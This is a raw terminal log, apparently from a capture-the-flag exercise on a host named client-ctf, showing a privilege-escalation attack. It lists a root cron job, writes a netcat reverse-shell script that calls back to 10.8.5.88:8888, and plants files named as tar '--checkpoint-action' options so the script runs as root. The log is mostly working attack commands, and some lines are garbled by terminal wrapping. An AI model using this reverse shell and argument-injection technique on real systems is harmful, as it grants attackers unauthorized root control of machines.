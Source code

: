 # that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/local/bin/compress.sh
julian@client-ctf:/$ ls 
ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
julian@client-ctf:/$ cd /home
cd /home
julian@client-ctf:/home$ ls
ls
julian
julian@client-ctf:/cd julian                                 
cd julian
julian@client-ctf:~$ echo "mkfifo /tmp/ceeie; nc 10.8.5.88 8888 0</tmp/ceeie | /bin/sh >/tmp/ceeie 2>&1; rm /tmp/ceeie" > shell.sh
bin/sh >/tmp/ceeie 2>&1; rm /tmp/ceeie" > shell.shceeie | /b
julian@client-ctf:~$ ls
ls
shell.sh
julian@client-ctf:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
julian@client-ctf:~$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
julian@client-ctf:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint-action=exec=sh shell.sh"
julian@client-ctf:~$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
julian@client-ctf:~$ echo "mkfifo /tmp/ceeie; nc 10.8.5.88 8888 0</tmp/ceeie | /bin/sh >/tmp/ceeie 2>&1; rm /tmp/ceeie" > shell.sh
bin/sh >/tmp/ceeie 2>&1; rm /tmp/ceeie" > shell.shceeie | /becho "mkfifo /tmp/ceeie; nc 10.8.5.88 8888 0</tmp/ceeie | /b
julian@client-ctf:~$
